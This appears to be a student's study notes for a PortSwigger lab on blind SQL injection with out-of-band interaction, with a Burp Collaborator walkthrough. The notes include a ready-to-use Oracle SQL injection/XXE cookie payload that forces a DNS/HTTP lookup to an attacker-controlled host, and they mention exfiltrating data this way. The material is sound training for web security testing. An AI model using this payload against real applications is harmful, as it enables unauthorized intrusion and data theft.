








# Lab 13: Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

> **Note**
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
> 

### **Hint**

You can find some useful payloads on our SQL injection cheat sheet.

### **Solution**

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
    
    
    
    
    
2. First, open Burp Collaborator and click on **Get Started** to generate a unique Burp Collaborator subdomain. Use this subdomain to perform the attack. If the target application is vulnerable, it will trigger a DNS lookup to the Burp Collaborator server. This DNS interaction confirms the presence of the vulnerability.
    
    **Collaborator:** a person who works jointly on an activity or project; an associate.
    
    [Burp Collaborator](../Img/Burp%20Collaborator/Burp%20Collaborator.md)
    
    - Burp Collaborator **Step-by-Step Walkthrough**
        
        ## 🧪 Step-by-Step Tutorial Overview
        
        ### **1️⃣. Access the Lab Environment**
        
        - Open Burp's embedded browser and navigate to the Lab:
        - Click on **"Access the lab"** and log in to your PortSwigger account if prompted. This will launch a deliberately vulnerable shopping website for testing purposes.
        
        ### **2️⃣. Explore the Target Site**
        
        - Within the browser, click on various product pages to generate traffic and populate Burp's HTTP history.
        
        ### **3️⃣. Send a Request to Repeater**
        
        - In Burp Suite, go to the **Proxy > HTTP history** tab.
        - Locate a `GET /product?productId=...` request.
        - Right-click on this request and select **"Send to Repeater"**.
        
        ### **4️⃣. Inject a Collaborator Payload**
        
        - Switch to the **Repeater** tab.
        - In the request headers, find the `Referer` header.
        - Highlight the URL in the `Referer` header, right-click, and choose **"Insert Collaborator payload"**. This action replaces the existing URL with a unique Collaborator subdomain, such as:
            
            `204119i326shak9tnk6k36z8jlahj74r.oastify.com`
            
        - Click **"Send"** to dispatch the modified request to the server.
        
        ### **5️⃣. Poll for Interactions**
        
        - Navigate to the **Collaborator** tab in Burp Suite.
        - Burp automatically polls the Collaborator server every 60 seconds. To check immediately, click **"Poll now"**.
        - If the application processed the payload and made a request to the Collaborator server, you'll see entries indicating DNS or HTTP interactions.
        - Click on an interaction to view detailed information about the request.
        
        ---
        
        ## ✅ Summary
        
        By following these steps, you've:
        
        - Generated a unique Collaborator payload.
        - Inserted the payload into a request to the target application.
        - Detected an out-of-band interaction resulting from the application's processing of the payload.
        
        > This process demonstrates how Burp Collaborator can be used to identify vulnerabilities that don't produce immediate or visible responses, such as blind SSRF.
        > 
    
    
    
3. Modify the `TrackingId` cookie,
changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
    
    ```sql
    TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
    ```
    
    
    
    
    

1. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.
    
    
    
    
    
    
    

The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator to verify that your payload had indeed 
triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.

### **Community solutions**

> [https://youtu.be/-t4cr5uRzzA](https://youtu.be/-t4cr5uRzzA)
>
